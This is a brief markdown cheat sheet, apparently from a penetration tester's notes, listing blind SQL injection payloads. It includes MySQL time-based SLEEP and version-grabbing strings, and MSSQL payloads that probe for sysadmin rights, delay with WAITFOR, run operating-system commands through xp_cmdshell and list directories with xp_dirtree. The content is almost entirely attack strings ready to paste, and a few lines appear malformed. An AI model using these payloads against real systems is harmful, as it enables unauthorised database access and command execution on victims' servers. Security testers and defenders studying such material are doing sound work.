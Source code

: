 # Inferential SQL Queries

Search Tag: #helpers #blind-sql-injection #webapp

## MySQL

Inject time-based blind payloads

```
' OR IF(1=1, SLEEP(5), 0)#
```

Grab version

```
' OR IF(1=1, SLEEP(5), 0) UNION SELECT (SELECT version())#
```

## MSSQL

```
' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 1 EXEC xp_cmdshell('echo Enabled')

' IF (SELECT CASE WHEN (SELECT IS_SRVROLEMEMBER('sysadmin')) = 1 THEN WAITFOR DELAY '0:0:16' ELSE 0 END) = 1

' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 0 EXEC xp_cmdshell('echo Disabled')

' IF (SELECT IS_SRVROLEMEMBER('sysadmin')) = 0 WAITFOR DELAY '0:0:16' ELSE 0 END) = 1

' IF (SELECT SUBSTRING(@@version, 1, 1)) = '1' WAITFOR DELAY '0:0:16'

' OR 1=1; EXEC xp_dirtree 'C:\your_target_directory', 1, 1;-- -
```

---
## References

- [WebSec: SQL Injection Knowledge Base](https://www.websec.ca/kb/sql_injection)